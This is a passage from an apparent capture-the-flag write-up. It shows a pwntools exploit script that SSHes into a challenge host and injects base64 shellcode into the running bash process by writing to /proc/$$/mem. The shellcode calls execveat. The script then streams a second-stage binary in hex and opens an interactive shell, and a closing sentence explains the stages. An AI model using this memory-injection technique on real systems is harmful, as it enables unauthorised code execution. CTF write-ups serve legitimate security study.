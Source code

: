 ```python
	pop rdx
        syscall
        jmp read  /* continue reading next byte */

execveat:
        push    rbp
        pop     rdi
        xor eax,eax
        cdq
        mov ax,322
        push rdx
        pop r10
        xor     ecx,ecx
        mov     ch,0x10
        push rcx
        pop r8
        push rdx
        mov rsi,rsp
        syscall
''')


ssh_conn = ssh(host='i-heart-pwn.ctfi.ng', user='tua-cugina', auth_none=True)
shell = ssh_conn.shell()
print("booting wait...")

cmd = 'cd /proc/$$;read a<syscall;exec 3>mem;echo '+b64e(shellcode1)+'|base64 -d|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3'

shell.sendlineafter(b'm$ ', cmd.encode())

shell.recvuntil(b'out\r\r\n', drop=True)

# send data line by line in hexadecimal
with open(f"exploit2", 'rb') as f:
 while True:
   chunk = f.read(32)
   if not chunk:
      break  # EOF reached
   hex_chunk = enhex(chunk)
   shell.sendline(hex_chunk.encode()+b'\x0a')  # Or replace with your sending l
shell.sendline(b'..')
shell.recvuntil(b'..', drop=True)

shell.interactive()
```

So the script connect via ssh to the remote VM, inject our first stage shellcode in bash process, then send our second stage `exploit2` in hexadecimal to our shellcode, that will in the end execute it.
